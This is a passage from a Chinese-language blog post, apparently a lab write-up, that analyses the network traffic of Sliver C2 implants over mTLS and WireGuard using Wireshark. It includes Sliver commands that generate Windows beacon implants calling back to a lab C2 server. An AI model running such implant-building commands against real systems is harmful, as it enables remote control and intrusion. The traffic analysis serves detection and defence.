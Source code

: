 ### 2.2 mTLS 通信分析

通过域名访问，创建 Implant

```shell
generate beacon --os windows --seconds 5 --mtls sliver.labnet.local,172.16.181.182
mtls
```

![p9VWIfI.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-7507637b7f5d49218b441eb970fe80e36464e76b.png)

执行 Implant 后，打开 Wireshark 抓取流量，首先在Wireshark中可以看到下面的DNS流量。显示了 Implant 通过 DNS 请求 Sliver 服务器的 IP 。  
![p9V2n9P.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-b6039b13698336846bb92610893829005a15bf50.png)

后续的数据包显示了建立TLS连接的过程，其中可以看到域名信息，这主要是由于SNI（Server Name Indication）的存在，服务器会根据SNI中的主机名来选择对应的证书和密钥，以完成TLS握手过程。SNI的引入使得服务器能够在同一IP地址和端口下支持多个域名。  
其余通信信息，均已进行加密。  
![p9V2djU.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-182ef40e3bb665bca1e612b721ec5ed3bc9ee3af.png)

在后续的数据包中，可以看到 TLS 连接没有保持开放。而是经常断开连接，然后稍后重新连接，这是由于 Implant 是作 beacon 创建的。  
此外，有个很有意思的点，在右边栏中可以观察到不同RST包之间存在一定间隔，非常直观。  
![p9V2acT.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-f20fcaf806df24c0e30db887be81f8925a7a2c98.png)

有些情况下，DNS服务不支持，这时需要直接进行IP通信，下面分析直接通过 IP 进行访问情况  
在我们的环境中，将BIND服务暂时关闭

```shell
# 关闭服务
systemctl stop bind9

# 刷新DNS缓存
ipconfig /flushdns
```

![p9V20uF.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-59812fefc9e92c353ec544c53a1f3c2a276bbb34.png)

重新执行 Implant ，首先可以看到一些 ICMP 数据包，限制端口不可达，检查源目的IP可以发现这部分是请求DNS解析的数据包，这里DNS服务关闭了，故存在下面这些数据包。  
![p9V2N90.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-0011d829416e176964d6b7ae796b9f3e335b63b8.png)

之后数据包中，可以看到受害主机与C2服务器进行TCP三次握手，直接连接到了IP地址。然后建立TLS连接，进行C2通信，由于beacon的原因，这里也是会间隔一定时间断开重连。此外，在这个流量中没有看到SNI的DNS名称，这证实了这个连接没有使用基于DNS的连接字符串。  
![p9V2U3V.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-030eb9c6f387598f96ac9cdb79b5feb50fd4e641.png)

三、WireGuard 通信分析
----------------

环境同上一节一致

首先通过指定 `--wg` 参数生成 Implant，并创建对应的 WireGuard 监听器，默认监听端口为 UDP 53。

```shell
generate --os windows --wg sliver.labnet.local,172.16.181.182
wg
```
